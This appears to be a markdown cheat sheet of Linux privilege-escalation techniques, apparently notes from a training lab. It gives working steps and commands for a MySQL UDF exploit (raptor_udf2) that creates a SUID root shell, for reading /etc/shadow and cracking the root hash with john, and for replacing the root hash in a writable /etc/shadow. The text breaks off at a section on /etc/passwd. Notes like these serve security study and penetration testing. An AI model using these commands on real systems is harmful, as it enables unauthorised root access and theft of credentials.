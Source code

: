 #Linux Privlage Escalation
### Service Exploits
- https://www.exploit-db.com/exploits/1518
- The mysql service is running as root and the 'root' user for the service does not have a password assigned or the password is known. This exploit takes advantage of the User Defined Functions (UFDs) to run system commands as root via the mysql service.
- Change into the `/home/user/tools/mysql-udf` directory.
`cd /home/user/tools/mysql-udf`
- Compile the raptor_udf2.c exploit code using the following
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
- Connect to the mysql service as the root user with a blank or known password.
`mysql -u root`
- Execute the following commands on the mysql shell to create a udf "do_system" using the compiled exploit
```
use mysql;
create table foo(line blob);
insert into foo values (load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
- Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission
`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`
- Exit out of the mysql shell
`\q`
- Run /tmp/rootbash with -p to gain a root shell
`/tmp/rootbash -p`

### Weak File Permissions - Readable /etc/shadow
`ls -l /etc/shadow`
`cat /etc/shadow`
- A users password hash (if they have one) can be found between the first and second (:) of each line.
- Save the root user's hash to a file called hash.txt on your kali machine and use john to crack it.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
- Switch to the root user
`su root`
### Weak File Permissions - Writeable /etc/shadow
`ls -l /etc/shadow`
- Generate a new password hash
`mkpasswd -m sha-512 jackiscool`
- Edit /etc/shadow and replace origional root user's password hash with the one that you just created
- Switch to the root user
`su root`
### Weak File Permissions - Writable /etc/passwd
- The /etc/passwd file contained user password hashes, and some versions of Linux still allow password hashes to be stored there
- 
